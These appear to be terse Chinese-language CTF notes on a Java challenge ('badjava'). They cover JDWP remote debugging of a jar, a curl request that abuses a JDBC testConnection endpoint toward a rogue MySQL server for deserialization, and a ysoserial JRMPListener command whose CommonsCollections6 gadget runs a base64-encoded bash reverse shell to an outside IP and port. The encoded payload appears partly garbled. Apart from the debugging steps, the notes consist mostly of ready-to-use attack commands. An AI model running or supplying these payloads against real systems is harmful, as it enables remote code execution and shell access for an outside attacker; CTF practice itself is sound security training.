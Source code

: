 - 有 pom.xml 文件，复制内容到 idea. maven 更新，会有些 vuln 提示
- [jdbcDriver](#jdbcdriver) : rogue_mysql_server 

# Java jar 文件调试

```sh
java -jar -Xdebug -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5005 <jarfile>
```

解压出 jar 文件。classes 下的内容放到 src 下面。在 idea 中看 比如 `com\ctf\badjava\BadjavaApplication.class` 放到 `src\com\ctf\badjava\BadjavaApplication.class`

- idea 中打开会显示源码，保存一份复制为 BadjavaApplication.java
- 去掉前几行的注释

`Edit Configuration - remote`, 默认参数即可。

- 下断点可正常调试了


# jdbcDriver
```sh
curl 192.168.142.1:8080/app3/testConnection/ -d 'Driver=com.tinysoft.jdbc.bridge.client.ClientDriver&url=jdbc:tsserver://127.0.0.1:3306/test'
# jdbc:tsserver 地址是是从服务器端发起的请求地址.
```
[JDBC反序列化漏洞](https://mp.weixin.qq.com/s/LlMsOyPtk_sfr_s63rc1Lw)

# ysoserial

```sh
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JAAvZGVDL3RjcC8xMjEuNDAuMjUzLjE3Ny8zODg4OCAwPiYx}|{base64,-d}|{bash,-i}"
```
# Article

[javasec](https://www.javasec.org/javaweb/JSON/FEATURE.html)


